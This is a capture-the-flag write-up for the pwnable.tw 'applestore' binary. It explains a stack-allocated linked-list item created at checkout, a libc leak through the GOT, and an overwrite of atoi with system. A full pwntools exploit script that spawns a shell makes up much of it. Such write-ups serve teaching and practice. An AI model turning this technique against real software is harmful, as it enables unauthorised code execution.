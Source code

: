 # 📌 **applestore - pwnable.tw**  

## 🔹 **Vulnerability Analysis**  
Check Security Protections
``` bash
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x8046000)
    RUNPATH:    b'.'
    Stripped:   No
```

## Program Overview
The program is a shopping cart application with the following five main functions:
1. **Add Item**: Adds a new item to the cart.
2. **Delete Item**: Removes an item from the cart.
3. **Display Bought Items**: Lists all items currently in the cart.
4. **List Available Products**: Displays available products for purchase.
5. **Checkout**: Processes the cart for checkout (not officially supported).

The cart items are stored using a doubly linked list, where each newly added item is appended to the tail of the list. The structure of an item is as follows:
```c
typedef struct item {
    char* name;
    int price;
    struct item *next_item;
    struct item *prev_item;
} item;
```
# Vulnerability Analysis

The vulnerability lies in the **checkout function**. Here's how it works:

1. The function checks if the total price of all items in the cart equals **7174**.
2. If the condition is met, it adds a new item (e.g., "iPhone 8") to the cart.
3. However, the new item is **added differently** compared to the `add item` function:
   - In the `add item` function, items are allocated on the **heap**.
   - In the `checkout` function, the new item is created on the **stack**.
   - The stack address corresponds to the input buffer used in the `handler` function and the input buffer of the `cart` function.

This inconsistency creates an opportunity for exploitation.

---

# Exploitation Plan

## Step 1: Prepare the Cart
1. Add items to the cart such that their total price sums up to **7174**.
2. This will trigger the `checkout` function, causing it to add a new item to the cart with a **stack address** in the doubly linked list.

## Step 2: Leak a Libc Address
1. Send the input `"0x804b033"` to the `handler` function's input buffer.
   - The `atoi` function will convert `0x33` (stopping at the first non-numeric character) to the integer `3`.
   - The value `3` corresponds to the **delete item** function (third choice in the menu).
2. When the item is deleted, the program prints the `name` of the deleted item.
   - In this case, the `name` corresponds to the address `0x804b033`, which points to an entry in the **GOT (Global Offset Table)**.
   - This leaks the address of the `__libc_start_main` function, allowing us to calculate the base address of `libc`.

## Step 3: Leak a Stack Address
1. Use the same method as above, but this time leverage the `cart` function.
   - The previous method leaks the address pointed to by `environ`, which has a **constant offset** to the stack.
   - This allows us to compute the **saved EBP pointer** in the `delete` function.

## Step 4: Overwrite `atoi` with `system`
1. Compute the address of the **saved EBP** in the `delete` function.
2. Overwrite the `atoi` GOT entry with the address of `system`.
   - This is the easiest way to gain control, as the program uses `atoi` to convert user input into integers for menu choices.
   - After overwriting `atoi`, any input passed to it will be interpreted as a command to `system`.

---

We can use the following Python program to determine the list of items required to trigger the checkout vulnerability. The program recursively searches for a combination of items whose total price equals the target value (in this case, 7174).
``` python
In [21]: def f(index, items_prices , target_number, used) :
    ...:     if target_number == 0 :
    ...:         return True
    ...:     if index >= len(items_prices) :
    ...:         return False
    ...:     flag = 0
    ...:     if target_number >= items_prices[index] :
    ...:         used.append(items_prices[index])
    ...:         flag = f(index, l , target_number - items_prices[index], used)
    ...:         if not flag :
    ...:             used.pop()
    ...:     if not flag :
    ...:         return f(index+1, items_prices, target_number, used)
    ...:     return flag
```
    Args:
        index (int): Current index in the items_prices list.
        items_prices (list): List of available item prices.
        target_number (int): The target total price. (7174)
        used (list): List to store the selected items.

    Returns:
        bool: True if a valid combination is found, otherwise False.
        
## 🔹 **Exploit Code** 
        
``` python
#! /usr/bin/python3.10
from pwn import *

p = process("./applestore_patched")
# p = remote("chall.pwnable.tw", 10104)
libc_elf = ELF("./libc_32.so.6")
prog_elf = ELF("./applestore_patched")

l = [199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 499, 499, 499, 499, 499, 499, 399]
_map = {199: "1", 499: "3", 399: "4"}

for _ in l:
    p.sendlineafter("> ", "2")
    p.sendlineafter("Device Number> ", _map[_])

# pause()
p.sendlineafter("> ", "5")
p.sendlineafter("Let me check your cart. ok? (y/n) > ", "y")
p.sendafter("> ", p32(0x804b033, "little") + b"\x00" * 12)
p.sendlineafter("Item Number> ", "28")
p.recvuntil("Remove 28:")
libc_leak = p.recvline()[:-1]
libc_leak = int.from_bytes(libc_leak[1:5], "little")
print("libc_leak @ ", hex(libc_leak))
libc_base = libc_leak - libc_elf.symbols["__libc_start_main"]
libc_elf.address = libc_base

atoi_got_addr = prog_elf.got["atoi"]
system_addr = libc_elf.symbols["system"]
environ = libc_elf.symbols["environ"]

p.sendafter("> ", p32(0x804b034, "little") + b"\x00" * 12)
p.sendlineafter("Let me check your cart. ok? (y/n) > ", b"y\x00" + p32(environ))
p.recvuntil("27: ")
stack_leak = int.from_bytes(p.recv(4), "little")
print("stack_leak @ ", hex(stack_leak))

delete_saved_ebp = stack_leak - 0x104
print("saved ebp ptr @ ", hex(delete_saved_ebp))

p.sendafter("> ", p32(0x804b033, "little") + b"\x00" * 4 + p32(delete_saved_ebp - 0x0c) + p32(atoi_got_addr + 0x22))
p.sendlineafter("Item Number> ", "28")
p.recvuntil("Remove 28:")

p.sendlineafter("> ", p32(system_addr) + b";sh\x00")

p.interactive()
```
